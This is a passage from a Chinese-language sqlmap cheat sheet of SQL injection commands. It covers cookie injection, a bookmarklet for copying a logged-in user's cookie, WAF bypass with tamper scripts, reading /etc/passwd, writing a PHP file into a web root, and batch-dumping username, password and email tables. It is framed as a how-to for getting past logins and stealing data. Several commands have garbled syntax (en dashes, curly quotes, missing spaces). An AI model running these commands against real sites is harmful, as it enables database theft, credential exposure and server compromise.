 sqlmap.py -u "http://127.0.0.1/base.php" --cookies "id=1" --dbs --level 2

2.默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用--level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我们直接在原有的基础上面加上 --level 2 即可

利用sqlmap cookies注入突破用户登录继续注入

先把用户登陆的cookie拿到吧，

在收藏夹添加一个链接cookies属性：

名字自己取

javascript:alert(document.cookie)，，需要获取当前cookie的时候，

直接点一下这个链接，然后复制一下弹出对话框

里的cookie值就搞定了

sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid --dbms mssql --cookie="info=username=test"

-p是指指定参数注入

4. sqlmap遇到url重写的注入

哪里存在注入就加上 * 号

1

./sqlmap.py -u "http://www.cunlide.com/id1/1*/id2/2"

5.sqlmap 编码绕waf注入

./sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper "space2morehash.py"

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

sqlmap读文件

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--file-read “/etc/passwd"

sqlmap写文件

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--file-write /localhost/mm.php --file-dest/var/www/html/xx.php -v 2

sqlmap分段脱裤

sqlmap.py -u url -D "data" -T "tables" -C "username,password,email" --dump --threads=5 --start=1 --stop=5000

其他基础：

sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --current-user #获取当前用户名称

sqlmap -u "http://www.xxoo.com/news?id=1" --level=3 --smart --dbms "Mysql" --current-db #获取当前数据库名称

sqlmap -u "http://www.xxoo.com/news?id=1" --level=3 --smart --dbms "Mysql"--tables -D "db_name" #列表名

sqlmap -u "http://url/news?id=1" --level=3 --smart --dbms "Mysql" --columns -T "tablename" users-D "db_name" -v 0 #列字段

